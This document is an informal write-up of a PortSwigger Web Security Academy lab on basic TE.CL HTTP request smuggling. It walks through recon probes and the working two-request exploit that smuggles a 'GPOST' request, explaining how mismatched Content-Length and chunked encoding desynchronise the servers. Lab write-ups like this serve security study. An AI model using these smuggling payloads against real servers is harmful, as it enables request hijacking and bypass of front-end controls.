

# [HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

> the goal is to make the server response: `"Unrecognized method GPOST"`

- open the lab in burp browser
- send the `/` request tot eh repeater
- change the request to `HTTP/1.1`
- send it again to check if it is still working
- should return with `200`

## recon

- check with the following request:

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

- delete the rest of the headers (to make it easy to read)
- every new line is two character `\r\n`
- so the `abc` looks like -> `abc\r\n` -> 5 characters
- the content length for this request is **9** but we set it **6**

```
3\r\n
abc\r\n
X\r\n
```

- **3,\r,\n,a,b,c** -> 6 character, it chops of the **x,\r,\n**
- but this do not have any affect because the frontend does not look at the `Content-Length`
- the frontend server checks `Transfer-Encoding: chunked`, and it sees that the content is not correct, instead of the **X** there should be a hexadecimal number, or the chunks should be closed by:

```
0\r\n
\r\n
```

- lets try one with a correctly chunked content

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

- this time it times out
- the frontend sees the chunk ending **0** and do not sends the **X**, but the backend waits for a **6** length content but it is only **5**
- this is a TE.CL exploit

## exploit

- two request will be sent, the first is to drop the `G` the second is to picks up the `G`
- but this would not work because you have to end the request with a 0 to pass the frontend
- the trick is to smuggle a new request in the first one what drops the second request

> first request

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

25
GPOST / HTTP/1.1
Content-Length: 6

0

```

> second request:

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 12

duck=quack
```

## what happens

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

25
GPOST / HTTP/1.1
Content-Length: 6

0

```

- the frontend when sees the content it will read this

```
25
GPOST / HTTP/1.1
Content-Length: 6

0

```

- it closes with **0** and has a **25** length chunk:

```
GPOST / HTTP/1.1\r\n
Content-Length: 6\r\n
```

- then the backend sees the content length **4** and drops part after the `25\r\n`

```
GPOST / HTTP/1.1
Content-Length: 6

0

```

- this will append to the next request but it needs `Content-Length: 6` to pick up the next request

> 
